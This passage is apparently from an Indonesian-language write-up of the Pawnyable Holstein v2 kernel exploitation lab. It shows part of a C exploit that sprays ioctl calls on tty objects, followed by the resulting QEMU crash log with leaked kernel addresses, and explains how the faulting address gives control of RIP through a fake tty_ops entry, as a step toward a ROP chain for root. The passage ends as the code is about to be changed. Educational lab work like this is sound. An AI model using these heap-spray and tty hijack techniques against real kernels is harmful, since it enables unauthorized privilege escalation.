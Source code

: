 ```c
    for (int i = 0; i < 100; i++) {
        ioctl(fd_spray[i], 0xdeadbeef, 0xcafebabe);
    }
}


int main()
{
    save_state();

    leak();



    return EXIT_SUCCESS;
}

```

saat menjalankan kode diatas, qemu menjadi crash karena register RIP mencoba mengakses address yang salah:

```bash
...
[ Holstein v2 (KL01-2) - Pawnyable ]
/ # ./exploit
[+] save state
tty_ops: 0xffffffff81c38880
kernel base: 0xffffffff81000000
k_buf : 0xffff888003d0e000
ptr: 0xcccccccccccccccc
BUG: unable to handle page fault for address: ffffffffdead0c00
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0010) - not-present page
PGD 1e0d067 P4D 1e0d067 PUD 1e0f067 PMD 0 
Oops: 0010 [#1] SMP PTI
CPU: 0 PID: 162 Comm: exploit Tainted: G           O      5.15.0 #1
Hardware name: QEMU Ubuntu 24.04 PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/014
RIP: 0010:0xffffffffdead0c00
Code: Unable to access opcode bytes at RIP 0xffffffffdead0bd6.
RSP: 0018:ffffc9000013fe10 EFLAGS: 00000286
RAX: ffffffffdead0c00 RBX: ffff888003d0e800 RCX: 00000000deadbeef
RDX: 00000000cafebabe RSI: 00000000deadbeef RDI: ffff888003d0e400
RBP: ffffc9000013fea8 R08: 00000000cafebabe R09: 0000000000000000
R10: 0000000000000000 R11: 0000000000000000 R12: 00000000deadbeef
R13: ffff888003d0e400 R14: 00000000cafebabe R15: ffff888003cdd800
FS:  00000000004ba380(0000) GS:ffff888003200000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffffffffdead0bd6 CR3: 0000000003bd4000 CR4: 00000000003006f0
...
```
crash pada alamat yang salah ```ffffffffdead0c00```, 0xc dalam alamat itu == 12. itu berarti kita bisa membuat penunjuk fungsi palsu untuk ```tty_ops``` pada offset ke 12 agar RIP bisa mengeksekusi rantai ROP kita hingga mendapatkan akses root, kita ubah bagian kodenya:
